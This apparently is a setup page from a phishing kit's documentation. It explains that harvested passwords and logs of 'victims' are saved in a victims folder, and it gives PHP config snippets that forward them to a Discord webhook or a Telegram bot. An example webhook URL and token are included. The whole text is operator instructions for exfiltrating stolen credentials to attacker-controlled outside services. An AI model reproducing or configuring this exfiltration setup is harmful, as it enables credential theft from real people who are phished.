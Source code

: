 Bydefault password and logs are stored under [/victims](../victims)

If you like password and logs to be sent via **discord** or **telegram**, just update [sender/config.php](../sender/config.php) like above examples. 

## Discord 
- Create a new server
- Right click on server icon, `Server Settings` > `Integrations` > `Create Webhook`
- Now click on `Copy Webhook URL` and insert in following code
```php
<?php
$discord = 'Enter discord webhook link here';

//Example:
//$discord = 'https://discord.com/api/webhooks/818892216943509504/iaF6RJ2SA1eH4dyWq4iMWNNigAHCzzLGK6e_DBOzPCkh0C6-R0UQ8TWjW87vi51K30Ei';
?>
```

## Telegram 
- Create new bot
- Copy its token and insert inside `$token` variable
- To get id of channel or group, share invite link to @IDbot at telegram, it will reply with id in format `-xxxxxxxx`. x is numeric value. and insert that id in `$chat_id` variable
```php
<?php

$token = 'your bot token here';
$chat_id = 'id of channel or group where logs should be sent';

//Example: $token = '6789:652668';
//Example: $chat_id = '-1007328423944';
$telegram = 'https://api.telegram.org/bot'.$token.'/sendMessage?chat_id='.$chat_id;
?>
```

**Note:** You can use both at parallel as well. 
